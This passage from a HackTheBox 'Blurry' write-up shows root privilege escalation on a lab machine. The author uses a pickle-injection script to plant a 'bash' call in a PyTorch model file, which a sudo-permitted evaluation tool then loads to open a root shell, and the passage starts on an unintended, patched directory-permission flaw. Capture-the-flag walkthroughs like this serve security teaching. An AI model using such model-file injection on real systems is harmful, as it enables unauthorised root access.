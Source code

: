 #### Shell

To get a shell, I’ll just replace `id` with `bash`, after moving the `.bak` copy as to not poison the same model multiple times.

```

(venv) oxdf@hacky$ mv demo_model.pth.bak demo_model.pth
(venv) oxdf@hacky$ python torch_pickle_inject.py demo_model.pth system "bash"

```

I’ll upload this, and run it:

```

jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/0xdf.pth
[+] Model /models/0xdf.pth is considered safe. Processing...
root@blurry:/models# id
uid=0(root) gid=0(root) groups=0(root)

```

And read the root flag:

```

root@blurry:~# cat root.txt
82949b01************************

```

## Beyond Root

### Unintended roots

#### Pemissions Issue [Patched]

On June 18 2024, 10 days after Blurry’s initial release, HackTheBox patched it:

![image-20241010174420362](/img/image-20241010174420362.png)

The issue is that the `/models` directory is owned by the jippity group:

```

jippity@blurry:/$ ls -ld models/
drwxrwxr-x 2 root jippity 4096 Jun 10 14:36 models/

```

Everything inside the directory is owned by root:

```

jippity@blurry:/models$ ls -l
total 1060
-rw-r--r-- 1 root root 1077880 May 30 04:39 demo_model.pth
-rw-r--r-- 1 root root    2547 May 30 04:38 evaluate_model.py

```
